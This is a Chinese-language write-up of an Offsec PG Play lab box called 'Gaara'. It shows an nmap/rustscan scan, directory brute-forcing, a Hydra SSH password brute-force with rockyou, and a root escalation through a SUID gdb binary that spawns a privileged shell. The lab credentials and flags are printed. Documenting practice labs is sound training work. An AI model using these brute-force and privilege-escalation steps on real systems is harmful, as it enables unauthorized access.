

###### tags: `Offsec` `PG Play` `Easy` `Linux`

# Gaara
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.215.142 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.215.142:80
Open 192.168.215.142:22

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Gaara
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

buster掃，要換大一點的，掃超久
```
┌──(kali㉿kali)-[~/pgplay]
└─$ feroxbuster -u http://192.168.215.142 -q -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 

200      GET      761l     2542w   219002c http://192.168.215.142/gaara.jpg
200      GET        5l        8w      137c http://192.168.215.142/
200      GET      302l        3w      327c http://192.168.215.142/Cryoserver
```

```
┌──(kali㉿kali)-[~/pgplay]
└─$ curl http://192.168.215.142/Cryoserver
...
/Temari
/Kazekage
/iamGaara
```

查看`http://192.168.215.142/iamGaara`頁面裡面一堆字發現有一個字串`f1MgN9mTf9SNbzRygcU`
不是base64，丟[dCode](https://www.dcode.fr/cipher-identifier)看看



試試看[Base58](https://gchq.github.io/CyberChef/#recipe=From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',true)&input=ZjFNZ045bVRmOVNOYnpSeWdjVQ) decode

```
gaara:ismyname
```

發現登入不了用hydra試試看
```
┌──(kali㉿kali)-[~/pgplay]
└─$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://192.168.215.142

[22][ssh] host: 192.168.215.142   login: gaara   password: iloveyou2
```

ssh登入，`/home/gaara`路徑可得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh gaara@192.168.215.142
gaara@192.168.215.142's password: iloveyou2

gaara@Gaara:~$ cat local.txt
e7100869b91b77e52a0bb503429db61e
```

找binary，找[GTFOBins](https://gtfobins.github.io/gtfobins/gdb/#suid)，在/root路徑可得到proof.txt
```
gaara@Gaara:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount

gaara@Gaara:~$ install -m =xs $(which gdb) .
gaara@Gaara:~$ /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
# whoami
root
# cat proof.txt
4784baefa7f3622c40d46c4b976e26aa
```